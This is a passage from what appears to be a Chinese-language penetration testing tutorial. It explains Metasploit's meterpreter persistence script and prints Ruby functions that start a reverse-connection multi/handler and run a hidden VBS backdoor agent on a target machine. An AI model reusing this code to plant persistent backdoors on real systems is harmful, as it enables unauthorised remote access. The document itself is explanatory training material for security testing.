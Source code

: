```
end 
```

该函数开始将文件写入磁盘。它将各种后门文件保存在之前函数创建的文件夹和目录中。`Rex::Text.rand_text_alpha((rand(8)+6)) + ".vbs"`调用生成一个随机文本作为要在临时目录中创建的文件名。`fd.write()`调用将文件写入磁盘。

```
# Function for setting multi handler for autocon
#-------------------------------------------------------------------------------
def set_handler(selected_payload,rhost,rport)
print_status("Starting connection handler at port #{rport} for #{selected_payload}")
mul = client.framework.exploits.create("multi/handler")
mul.datastore['WORKSPACE'] = @client.workspace
mul.datastore['PAYLOAD'] = selected_payload
mul.datastore['LHOST'] = rhost
mul.datastore['LPORT'] = rport
mul.datastore['EXITFUNC'] = 'process'
mul.datastore['ExitOnSession'] = false
mul.exploit_simple(
'Payload' => mul.datastore['PAYLOAD'],
'RunAsJob' => true
)
print_good("Multi/Handler started!")
end 
```

该函数创建一个多处理程序，以连接回攻击系统。这是一个通用函数，如果您想通过设置多处理程序来实现自动连接功能，可以在您的脚本中使用它。

```
# Function to execute script on target and return the PID of the process
#-------------------------------------------------------------------------------
def targets_exec(script_on_target)
print_status("Executing script #{script_on_target}")
proc = session.sys.process.execute("cscript \"#{script_on_target}\"", nil, {'Hidden' => true})
print_good("Agent executed with PID #{proc.pid}")
file_local_write(@clean_up_rc, "kill #{proc.pid}\n")
return proc.pid
end 
```

该函数负责在目标机器上执行脚本。持久性脚本在目标机器上创建 vbs 脚本，因此必须执行它们以打开连接。`Targets_exec()`函数解决了这个目的。如果您想在目标机器上执行脚本，这个函数可以再次作为通用函数在您自己的脚本中使用。`session.sys.process.execute()`调用负责执行脚本，`proc.pid`返回创建的后门进程的进程 ID。

代码的其余部分是不言自明的，这些函数被调用，一个清晰的脚本被创建，并且一个选项检查被实施。这个示例可能让您清楚地了解当我们执行一个 meterpreter 脚本时背后发生了什么。从渗透测试人员的角度来看，能够根据工作场景阅读和修改代码非常重要。这就是开源框架的美妙之处所在。您可以根据自己的需求进行修改，并通过直接分析现有的源代码来学习。
